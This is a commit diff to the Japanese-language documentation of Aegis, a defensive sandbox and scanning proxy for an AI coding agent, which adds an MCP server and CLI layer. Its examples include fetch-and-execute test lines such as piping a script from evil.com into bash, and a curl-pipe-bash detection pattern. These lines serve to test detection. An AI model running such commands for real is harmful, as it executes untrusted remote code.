

Before and after one commit to hdknr/aegis, an MkDocs documentation site: the page built from docs/getting-started.md, in a window 1280 px wide and 1400 px high, scrolled down 1158 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
docs: add Aegis Gate (MCP Server / CLI) as integration layer
Introduce Aegis Gate as the 4th component that bridges host Claude Code
with the Aegis backend services. Gate provides:
- MCP Server: aegis_fetch, aegis_scan, aegis_status tools for Claude Code
- CLI: aegis fetch/scan/status commands for direct terminal use

Updated docs:
- architecture.md: System Overview diagram includes Gate, updated
  Request Lifecycle with MCP-based Pattern A as recommended flow
- index.md: Added Gate to Solution section
- components/gate.md: New component spec with MCP tools, CLI usage,
  integration scenarios (Twitter URL scanning, npm package checks)
- getting-started.md: Reorganized to 3 patterns (MCP/CLI/Worker),
  MCP Server setup instructions
- configuration.md: Added Gate environment variables
- mkdocs.yml: Added Gate to nav

Co-Authored-By: Claude Opus 4.6 (1M context) <noreply@anthropic.com>

````diff
--- a/docs/architecture.md
+++ b/docs/architecture.md
@@ -2,19 +2,24 @@
 
 ## System Overview
 
-Aegis は Docker Compose で連携する 3 つのサービスから構成される。
+Aegis は Docker Compose で連携する 3 つのバックエンドサービスと、ホスト側の統合レイヤーから構成される。
 
 ```mermaid
 graph TB
     subgraph Host["Host Machine"]
+        ClaudeCode["Claude Code<br/>(Host)"]
+        MCP["Aegis Gate<br/>(MCP Server / CLI)"]
+
         subgraph DockerNetwork["aegis-net (Docker Bridge Network)"]
-            Worker["Aegis Shield<br/>(aegis-worker)<br/>Ubuntu + Node.js + Claude Code"]
+            Worker["Aegis Shield<br/>(aegis-worker)<br/>Ubuntu + Node.js"]
             Proxy["Aegis Eye<br/>(aegis-proxy)<br/>mitmproxy + Python addon"]
             Scanner["Aegis Blade<br/>(aegis-scanner)<br/>FastAPI + ClamAV + Trivy"]
         end
     end
     Internet["External Internet"]
 
+    ClaudeCode -->|"MCP tools<br/>(aegis_fetch, aegis_scan)"| MCP
+    MCP -->|"docker compose exec"| Worker
     Worker -->|"HTTP/HTTPS<br/>(via HTTP_PROXY)"| Proxy
     Proxy -->|"POST /scan<br/>(payload inspection)"| Scanner
     Scanner -->|"verdict:<br/>allow / block / warn"| Proxy
@@ -22,44 +27,46 @@ graph TB
     Internet -->|"response"| Proxy
     Proxy -->|"scanned response"| Worker
 
+    style ClaudeCode fill:#6b4fbb,color:#fff
+    style MCP fill:#2ea44f,color:#fff
     style Worker fill:#4a90d9,color:#fff
     style Proxy fill:#e8a838,color:#fff
     style Scanner fill:#d94a4a,color:#fff
     style Internet fill:#888,color:#fff
 ```
 
-| Service | Codename | Docker Service | Role |
+| Service | Codename | Location | Role |
 |---|---|---|---|
-| [Aegis Shield](components/worker.md) | Shield | `aegis-worker` | AI エージェントの隔離実行環境（プロセス隔離層） |
-| [Aegis Eye](components/proxy.md) | Eye | `aegis-proxy` | HTTP/HTTPS インターセプトプロキシ（トラフィック検査層） |
-| [Aegis Blade](components/scanner.md) | Blade | `aegis-scanner` | ClamAV + Trivy スキャンエンジン（深層スキャン層） |
+| [Aegis Gate](components/gate.md) | Gate | Host | MCP Server / CLI — Claude Code とバックエンドの統合レイヤー |
+| [Aegis Shield](components/worker.md) | Shield | Docker (`aegis-worker`) | AI エージェントの隔離実行環境（プロセス隔離層） |
+| [Aegis Eye](components/proxy.md) | Eye | Docker (`aegis-proxy`) | HTTP/HTTPS インターセプトプロキシ（トラフィック検査層） |
+| [Aegis Blade](components/scanner.md) | Blade | Docker (`aegis-scanner`) | ClamAV + Trivy スキャンエンジン（深層スキャン層） |
 
 ## Request Lifecycle
 
-ユーザーはホスト PC のコンソールで Claude Code を操作する。外部リソースへのアクセスが必要な場合、2 つの利用パターンがある:
+ユーザーはホスト PC のコンソールで Claude Code を操作する。外部リソースへのアクセスが必要な場合、以下の利用パターンがある:
 
-- **パターン A**: ホストの Claude Code が aegis-worker にコマンドを委譲する（`docker compose exec` 経由）
-- **パターン B**: aegis-worker 内で直接 Claude Code を起動する（`claude --dangerously-skip-permissions`）
+- **パターン A (MCP)**: Claude Code が Aegis Gate の MCP ツール（`aegis_fetch` 等）を呼び出す。最も推奨される方式
+- **パターン B (CLI)**: ユーザーまたは Claude Code が `aegis` CLI コマンドを直接実行する
+- **パターン C (Worker 内起動)**: aegis-worker 内で Claude Code を起動する（`claude --dangerously-skip-permissions`）
 
-いずれの場合も、aegis-worker からの外部通信は全て Aegis Eye (proxy) を経由する。
+いずれの場合も、外部通信は全て Aegis Eye (proxy) → Aegis Blade (scanner) を経由する。
+
+### Pattern A: MCP Server 経由（推奨）
 
 ```mermaid
 sequenceDiagram
     participant User as User<br/>(Host PC)
     participant Claude as Claude Code<br/>(Host)
+    participant Gate as Aegis Gate<br/>(MCP Server)
     participant Worker as Aegis Shield<br/>(aegis-worker)
     participant Proxy as Aegis Eye<br/>(aegis-proxy)
     participant Scanner as Aegis Blade<br/>(aegis-scanner)
     participant Ext as External Server
 
-    alt Pattern A: Host Claude Code delegates to Worker
-        User->>Claude: Operate via console
-        Claude->>Worker: docker compose exec<br/>(curl, npm install, etc.)
-    else Pattern B: Claude Code runs inside Worker
-        User->>Worker: docker compose exec bash
-        Note over Worker: claude --dangerously-skip-permissions
-        Worker->>Worker: Claude Code executes command
-    end
+    User->>Claude: "この URL の内容を確認して"
+    Claude->>Gate: aegis_fetch(url)
+    Gate->>Worker: docker compose exec curl <url>
 
     Worker->>Proxy: HTTP(S) request via HTTP_PROXY
 
@@ -69,28 +76,58 @@ sequenceDiagram
 
     alt Domain blocked or C2 IP detected
         Proxy-->>Worker: 403 Forbidden + reason
+        Worker-->>Gate: blocked response
+        Gate-->>Claude: {verdict: "block", reason: "..."}
     else Request allowed
         Proxy->>Ext: Forward request
         Ext-->>Proxy: Response
 
         Note over Proxy: response() hook
-        Proxy->>Proxy: Check Content-Type
 
         alt Script or binary detected
             Proxy->>Scanner: POST /scan (payload)
-            Scanner->>Scanner: ClamAV scan
-            Scanner->>Scanner: Trivy scan
+            Scanner->>Scanner: ClamAV + Trivy scan
             Scanner-->>Proxy: verdict + details
 
             alt verdict = block
-                Proxy-->>Worker: 403 Forbidden + scan details
+                Proxy-->>Worker: 403 Forbidden
+                Worker-->>Gate: blocked response
+                Gate-->>Claude: {verdict: "block", details: [...]}
             else verdict = allow or warn
-                Proxy-->>Worker: Response (+ warning header if warn)
+                Proxy-->>Worker: Response
+                Worker-->>Gate: content
+                Gate-->>Claude: {verdict: "allow/warn", content: "..."}
             end
         else Safe Content-Type
             Proxy-->>Worker: Response (pass-through)
+            Worker-->>Gate: content
+            Gate-->>Claude: {verdict: "allow", content: "..."}
         end
     end
+
+    Claude->>User: スキャン結果付きで回答
+```
+
+### Pattern C: Worker 内で Claude Code を直接起動
+
+```mermaid
+sequenceDiagram
+    participant User as User<br/>(Host PC)
+    participant Worker as Aegis Shield<br/>(aegis-worker)
+    participant Proxy as Aegis Eye<br/>(aegis-proxy)
+    participant Scanner as Aegis Blade<br/>(aegis-scanner)
+    participant Ext as External Server
+
+    User->>Worker: docker compose exec bash
+    Note over Worker: claude --dangerously-skip-permissions
+    Worker->>Worker: Claude Code executes command
+
+    Worker->>Proxy: HTTP(S) request via HTTP_PROXY
+    Proxy->>Ext: Forward (if allowed)
+    Ext-->>Proxy: Response
+    Proxy->>Scanner: POST /scan (if needed)
+    Scanner-->>Proxy: verdict
+    Proxy-->>Worker: Response or 403
 ```
 
 ## Trust Boundaries
--- /dev/null
+++ b/docs/components/gate.md
@@ -0,0 +1,229 @@
+# Aegis Gate (MCP Server / CLI)
+
+ホスト PC の Claude Code と Aegis バックエンドを接続する統合レイヤー。
+
+## Overview
+
+Aegis Gate は 2 つのインターフェースを提供する:
+
+1. **MCP Server**: Claude Code の MCP ツールとして動作し、`aegis_fetch`, `aegis_scan` 等を提供
+2. **CLI**: `aegis` コマンドとしてターミナルから直接利用
+
+いずれも内部では `docker compose exec aegis-worker` を経由して、Aegis のスキャンパイプラインを通した安全な外部アクセスを実行する。
+
+## Architecture
+
+```mermaid
+graph TB
+    subgraph Host["Host Machine"]
+        Claude["Claude Code"]
+        CLI["aegis CLI"]
+        Gate["Aegis Gate<br/>(MCP Server)"]
+    end
+
+    subgraph Docker["Docker (aegis-net)"]
+        Worker["Aegis Shield"]
+        Proxy["Aegis Eye"]
+        Scanner["Aegis Blade"]
+    end
+
+    Claude -->|"MCP protocol<br/>(stdio)"| Gate
+    CLI -->|"direct call"| Gate
+    Gate -->|"docker compose exec"| Worker
+    Worker -->|"HTTP_PROXY"| Proxy
+    Proxy -->|"POST /scan"| Scanner
+```
+
+## MCP Tools
+
+### aegis_fetch
+
+外部 URL のコンテンツをスキャン付きで取得する。
+
+**Parameters:**
+
+| Name | Type | Required | Description |
+|---|---|---|---|
+| `url` | string | Yes | 取得対象の URL |
+| `method` | string | No | HTTP メソッド (default: `GET`) |
+| `headers` | object | No | 追加リクエストヘッダー |
+
+**Returns:**
+
+```json
+{
+  "url": "https://example.com/script.sh",
+  "status_code": 200,
+  "verdict": "block",
+  "reason": "dangerous_script_pattern",
+  "pattern_matched": "curl.*|.*bash",
+  "content_type": "text/x-shellscript",
+  "content": null,
+  "scan_details": [
+    {"scanner": "proxy", "result": "BLOCKED", "pattern": "curl_pipe_bash"}
+  ]
+}
+```
+
+| Field | Type | Description |
+|---|---|---|
+| `url` | string | リクエスト URL |
+| `status_code` | integer | HTTP ステータスコード (block 時は 403) |
+| `verdict` | string | `allow`, `block`, `warn` |
+| `reason` | string | ブロック/警告理由 (verdict が allow の場合は null) |
+| `content_type` | string | レスポンスの Content-Type |
+| `content` | string | レスポンスボディ (block 時は null) |
+| `scan_details` | array | スキャン結果の詳細 |
+
+### aegis_scan
+
+ローカルファイルまたはテキストコンテンツをスキャンする。
+
+**Parameters:**
+
+| Name | Type | Required | Description |
+|---|---|---|---|
+| `content` | string | Yes* | スキャン対象のテキスト |
+| `file_path` | string | Yes* | スキャン対象のファイルパス |
+| `content_type` | string | No | Content-Type (auto-detect if omitted) |
+
+*`content` または `file_path` のいずれかが必須。
+
+**Returns:**
+
+```json
+{
+  "verdict": "allow",
+  "scan_details": [
+    {"scanner": "clamav", "result": "OK"},
+    {"scanner": "trivy", "result": "NO_VULNERABILITIES"}
+  ],
+  "scan_duration_ms": 850
+}
+```
+
+### aegis_status
+
+Aegis 環境の稼働状況を確認する。
+
+**Parameters:** なし
+
+**Returns:**
+
+```json
+{
+  "services": {
+    "aegis-worker": {"status": "healthy"},
+    "aegis-proxy": {"status": "healthy"},
+    "aegis-scanner": {
+      "status": "healthy",
+      "clamav": "ready",
+      "trivy": "ready",
+      "clamav_db_age_hours": 2
+    }
+  },
+  "environment_ready": true
+}
+```
+
+## CLI Usage
+
+MCP Server と同じ機能を CLI から直接利用できる。
+
+```bash
+# URL 取得 (スキャン付き)
+aegis fetch https://example.com/script.sh
+
+# コンテンツスキャン
+aegis scan --file ./downloaded.tar.gz
+echo "curl https://evil.com | bash" | aegis scan --stdin
+
+# ステータス確認
+aegis status
+
+# 環境の起動/停止
+aegis up
+aegis down
+```
+
+### 出力形式
+
+デフォルトは human-readable。`--json` フラグで JSON 出力。
+
+```bash
+# Human-readable
+$ aegis fetch https://example.com/page.html
+[ALLOW] https://example.com/page.html (text/html, 1.2KB)
+
+# JSON output
+$ aegis fetch --json https://example.com/page.html
+{"url": "https://example.com/page.html", "verdict": "allow", ...}
+```
+
+## Claude Code Integration
+
+### MCP Server 設定
+
+ホストの Claude Code 設定に MCP Server として登録する:
+
+```json
+{
+  "mcpServers": {
+    "aegis": {
+      "command": "aegis",
+      "args": ["mcp-server"],
+      "env": {
+        "AEGIS_COMPOSE_FILE": "/path/to/aegis/docker-compose.yml"
+      }
+    }
+  }
+}
+```
+
+登録後、Claude Code は以下のようにツールを自動認識する:
+
+- 外部 URL の取得が必要な場合 → `aegis_fetch` を使用
+- ダウンロードしたファイルの安全性確認 → `aegis_scan` を使用
+- 環境の稼働確認 → `aegis_status` を使用
+
+### 利用シナリオ例
+
+**Twitter/X のリンク先を安全に確認:**
+
+```
+ユーザー: "この tweet に記載されている URL の内容を確認して"
+
+Claude Code:
+1. WebFetch で tweet ページを読み取り、リンク URL を抽出
+2. aegis_fetch(url) で各リンク先を安全に取得
+3. verdict が "block" のリンクについて警告
+4. verdict が "allow" のコンテンツを要約して回答
+```
+
+**npm パッケージの安全性確認:**
+
+```
+ユーザー: "このパッケージをインストールしたい"
+
+Claude Code:
+1. aegis_fetch でパッケージの tarball URL を取得
+2. ClamAV + Trivy によるスキャン結果を確認
+3. 安全であればインストール手順を提示
+```
+
+## Implementation Notes
+
+- MCP Server は Python (`mcp` ライブラリ) で実装
+- CLI は同一コードベースで `click` or `typer` によるエントリポイント
+- 内部では `subprocess` で `docker compose exec` を呼び出し
+- レスポンスのパース: Worker 内で curl の出力 + proxy の `X-Aegis-*` ヘッダーを解析
+- MCP transport: stdio (Claude Code 標準)
+
+## Environment Variables
+
+| Variable | Default | Description |
+|---|---|---|
+| `AEGIS_COMPOSE_FILE` | `./docker-compose.yml` | docker-compose.yml のパス |
+| `AEGIS_COMPOSE_PROJECT` | `aegis` | Docker Compose プロジェクト名 |
+| `AEGIS_OUTPUT_FORMAT` | `text` | CLI 出力形式 (`text`, `json`) |
+| `AEGIS_TIMEOUT` | `30` | リクエストタイムアウト (秒) |
--- a/docs/getting-started.md
+++ b/docs/getting-started.md
@@ -6,7 +6,8 @@ Aegis 環境のセットアップと基本的な使い方。
 
 - [Docker](https://docs.docker.com/get-docker/) (v24+)
 - [Docker Compose](https://docs.docker.com/compose/install/) (v2+)
-- [Claude Code CLI](https://docs.anthropic.com/en/docs/claude-code) (optional)
+- [Claude Code CLI](https://docs.anthropic.com/en/docs/claude-code)
+- Python 3.12+ / [uv](https://docs.astral.sh/uv/) (Aegis Gate のインストールに必要)
 
 ## Quick Start
 
@@ -37,55 +38,81 @@ docker compose logs -f aegis-scanner  # ClamAV 初期化の進捗
 docker compose ps --format "table {{.Name}}\t{{.Status}}"
 ```
 
-### 3. Verify Services are Ready
+### 3. Install Aegis Gate
 
-全サービスが healthy になったことを確認:
+ホスト PC に Aegis Gate (CLI / MCP Server) をインストール:
 
 ```bash
-# Scanner → Proxy → Worker の順に healthy になる
+uv pip install -e .
+```
+
+### 4. Verify Services are Ready
+
+```bash
+# CLI で確認
+aegis status
+
+# または docker compose で直接確認
 docker compose ps --format "table {{.Name}}\t{{.Status}}"
 ```
 
 ## Usage
 
-Aegis には 2 つの利用パターンがある。用途に応じて使い分ける。
+Aegis には 3 つの利用パターンがある。**Pattern A (MCP Server)** を推奨する。
 
-### Pattern A: ホストの Claude Code から Worker にコマンド委譲
+### Pattern A: MCP Server 経由（推奨）
 
-ホスト PC で通常通り Claude Code を使いながら、外部アクセスを伴うコマンド（`curl`, `npm install`, `pip install` 等）を aegis-worker 経由で安全に実行する。
+Claude Code の MCP ツールとして Aegis を統合する。Claude Code が外部 URL の取得やコンテンツのスキャンを `aegis_fetch`, `aegis_scan` ツールで自動的に安全実行する。
 
-#### Claude Code の hooks 設定
+#### MCP Server の設定
 
-ホスト側の Claude Code 設定（`.claude/settings.json`）に hooks を追加し、Bash コマンドを自動的に aegis-worker 内で実行させる:
+Claude Code の設定ファイルに追加:
 
 ```json
 {
-  "hooks": {
-    "Bash": {
-      "setup": "docker compose -f /path/to/aegis/docker-compose.yml up -d"
+  "mcpServers": {
+    "aegis": {
+      "command": "aegis",
+      "args": ["mcp-server"],
+      "env": {
+        "AEGIS_COMPOSE_FILE": "/path/to/aegis/docker-compose.yml"
+      }
     }
   }
 }
 ```
 
-#### 手動での利用
+#### 利用例
 
-hooks を使わない場合、Claude Code セッション内から手動で aegis-worker にコマンドを委譲できる:
+設定後、Claude Code セッション内で自然に利用される:
+
+```
+ユーザー: "この URL の内容を確認して: https://example.com/install.sh"
+
+Claude Code が aegis_fetch(url="https://example.com/install.sh") を呼び出し:
+→ スキャン結果付きでコンテンツを取得
+→ 危険なパターンが検出された場合はブロックされ、ユーザーに警告
+```
+
+### Pattern B: CLI から直接利用
+
+`aegis` コマンドでターミナルから直接利用する。Claude Code の Bash ツール経由でも呼び出せる。
 
 ```bash
-# ホストの Claude Code セッション内で実行
-docker compose exec aegis-worker curl -I https://github.com
+# URL 取得（スキャン付き）
+aegis fetch https://example.com/script.sh
 
-# npm install を Worker 内で実行
-docker compose exec aegis-worker npm install express
+# ファイルスキャン
+aegis scan --file ./downloaded.tar.gz
 
-# スクリプトの実行
-docker compose exec aegis-worker bash -c "wget https://example.com/setup.sh && cat setup.sh"
+# テキストスキャン
+echo "curl https://evil.com | bash" | aegis scan --stdin
+
+# JSON 出力
+aegis fetch --json https://example.com/page.html
 ```
 
-この方式では、ホスト PC の開発環境はそのまま使いつつ、ネットワークアクセスのみを Aegis で保護する。
-
-### Pattern B: Worker 内で Claude Code を直接起動
+### Pattern C: Worker 内で Claude Code を直接起動
 
 aegis-worker コンテナ内で Claude Code を起動し、全ての操作を隔離環境内で実行する。最も安全だが、ホスト側のファイルは `/workspace` マウント経由でのみアクセス可能。
 
@@ -100,26 +127,23 @@ claude --dangerously-skip-permissions
 
 ### 動作確認
 
-どちらのパターンでも、aegis-worker 内からプロキシ経由の通信を確認できる:
+```bash
+# Aegis Gate 経由で確認
+aegis fetch https://github.com            # 通過するはず
+aegis fetch https://example.com/test.sh   # スクリプトパターンがあればブロック
 
-```bash
-# Worker 内で実行（Pattern B の場合はそのまま、Pattern A の場合は docker compose exec 経由）
-
-# 正常なリクエスト (通過するはず)
-curl -I https://github.com
-
-# 危険なパターンのテスト (ブロックされるはず)
-curl -s https://example.com/test.sh | bash
+# Worker 内で直接確認
+docker compose exec aegis-worker curl -I https://github.com
 ```
 
 ### パターン比較
 
-| | Pattern A (コマンド委譲) | Pattern B (Worker 内起動) |
-|---|---|---|
-| **安全性** | ネットワークのみ保護 | ネットワーク + プロセス隔離 |
-| **利便性** | ホストの開発環境をそのまま利用 | `/workspace` 経由のみ |
-| **適用場面** | 既存プロジェクトへの導入 | 新規プロジェクト・高リスク作業 |
-| **設定** | hooks 設定 or 手動 exec | `docker compose exec` + `claude` |
+| | Pattern A (MCP Server) | Pattern B (CLI) | Pattern C (Worker 内起動) |
+|---|---|---|---|
+| **統合性** | Claude Code にネイティブ統合 | Bash 経由で明示的に呼ぶ | Worker 内で完結 |
+| **安全性** | ネットワーク保護 + 構造化結果 | ネットワーク保護 | ネットワーク + プロセス隔離 |
+| **利便性** | 最も高い（自動判断） | 高い（手動呼び出し） | `/workspace` 経由のみ |
+| **適用場面** | 日常的な開発作業 | スクリプト・自動化 | 高リスク作業 |
 
 ## Building Documentation
 
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -50,6 +50,7 @@ nav:
   - Architecture: architecture.md
   - Getting Started: getting-started.md
   - Components:
+      - "Aegis Gate (MCP/CLI)": components/gate.md
       - "Aegis Shield (Worker)": components/worker.md
       - "Aegis Eye (Proxy)": components/proxy.md
       - "Aegis Blade (Scanner)": components/scanner.md
````
Also changed, not shown: docs/index.md (+5 -1 lines), docs/reference/configuration.md (+9 -0 lines).
